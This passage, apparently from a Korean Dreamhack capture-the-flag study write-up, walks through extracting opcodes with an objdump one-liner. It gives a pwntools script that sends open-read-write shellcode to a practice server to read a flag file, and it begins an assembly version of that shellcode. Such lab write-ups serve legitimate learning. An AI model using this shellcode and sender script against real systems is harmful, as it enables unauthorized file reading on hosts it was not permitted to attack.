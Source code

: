- `for i in $( )` : $( ) 내의 명령을 실행한 값을 반복하여 i로 접근

- `objdump -d [file_path]` : [file] 경로의 오브젝트 파일을 기계어로 역어셈블

- `grep "^ "` : 공백으로 시작하는 문자열 탐색 (ELF파일에 기계어는 ^뒤에 있으므로)

<img width="829" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/f56e9700-64ec-421b-82bf-6ec869e64427">

- `cut -f 2` : 문자열의 2번째 필드만 추출

- `do echo -n \\x$i` : “\x” + 변수 i 값을 줄바꿈 없이 출력

- `done` : 반복문 종료 

### 6.

이후 pwntools를 이용하여 실제 원격 서버에 공격을 위한 python 파일을 생성 후 공격한다.

```py
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 17846)

shellcode = b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\x31\xc0\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05'

p.sendlineafter('shellcode: ', shellcode)

print(p.recvuntil(b'}'))
```

<br>

## 풀이방법 2. 어셈블리어 코드(.asm) 작성

### 1.

위에서 skeleton 코드를 작성한 것과 달리 어셈블리어 코드를 작성하여 object파일 생성 후 이를 통해 opcode를 얻는 방법이다. 

이를 위해 .asm 코드를 작성해준다.

```
section .text ; 섹션을 정해주는 부분 같음
global start ; 코드를 어디서 시작할지 정하는 것 같음
start:
    xor rax, rax
    push rax
    mov rax, 0x676e6f6f6f6f6f6f
    push rax
    mov rax, 0x6c5f73695f656d61
    push rax
    mov rax, 0x6e5f67616c662f63
    push rax
    mov rax, 0x697361625f6c6c65
    push rax
    mov rax, 0x68732f656d6f682f
    push rax

    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x02
    syscall ; open call
```